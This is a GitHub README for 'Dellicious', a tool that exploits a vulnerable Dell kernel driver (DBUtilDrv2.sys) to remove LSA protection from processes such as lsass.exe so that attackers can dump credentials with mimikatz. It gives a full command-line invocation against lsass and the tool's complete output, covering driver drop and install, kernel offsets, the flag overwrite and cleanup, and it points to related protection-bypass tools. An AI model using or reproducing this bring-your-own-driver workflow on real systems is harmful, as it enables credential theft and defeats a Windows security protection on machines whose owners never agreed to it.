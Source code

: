 # Dellicious

Dellicious is a tool for enabling/disabling LSA protection on arbitrary processes via a vulnerability in Dell's DBUtilDrv2.sys driver (version 2.5 or 2.7). Dellicious drops the vulnerable driver to disk, installs it, exploits it, and then removes it. That obviously requires administrator access, but that's fairly normal for LSA Protect bypass techniques. See:

* [PPLKiller](https://github.com/RedCursorSecurityConsulting/PPLKiller) - LSA protect bypass using `rtcore.sys`
* [PPLDump](https://github.com/itm4n/PPLdump) - LSA protect bypass using `DefineDosDevice` and known dlls
* [mimidrv](https://posts.specterops.io/mimidrv-in-depth-4d273d19e148) - Mimikatz kernel driver

LSA protection blocks memory access from other processes. When LSA protection is enabled lsass.exe can't have it's memory dumped by tools like mimikatz. Obviously, running mimikatz is extremely desirable for an attacker. Using this tool the attacker is able to disable the protection and dump/access memory.

## Example GIF

Oh no. It's too big to host on github :(

## Example CLI Usage

In the following, lsass.exe is pid 740. I've instructed Dellicious to disable protection using DBUtilDrv2.sys version 2.7.

```
C:\Users\albinolobster\Desktop>.\dellicious.exe -p 740 -e 0 -d 1
[+] User provided pid: 740
[+] Windows version found: 2009
[+] Using offsets:
        UniqueProcessIdOffset = 0x440
        ActiveProcessLinkOffset = 0x448
        SignatureLevelOffset = 0x878
[+] Dropping version 2.7 to disk
[+] Attempting driver install...
[+] Driver installed!
[+] Device handle has been obtained @ \\.\DBUtil_2_5
[+] Ntoskrnl base address: fffff80615c00000
[+] PsInitialSystemProcess address: ffffa20e29860180
[+] Target process address: ffffa20e2b3e10c0
[+] Current SignatureLevel, SectionSignatureLevel, Type, Audit, and Signer bits (plus 5 bytes): 40c0000041083c
[+] Writing flags back as: 40c00000000000
[+] Done!
[+] Removing device
[!] Clean exit! o7
```

## Credit

This codebase is heavily influenced by PPLKiller (mentioned above). It also was influenced by the dbutil_2_3.sys metasploit module as well as [Mitch Zakocs'](https://www.mitchellzakocs.com/blog/dbutil) write up on CVE-2021-21551.
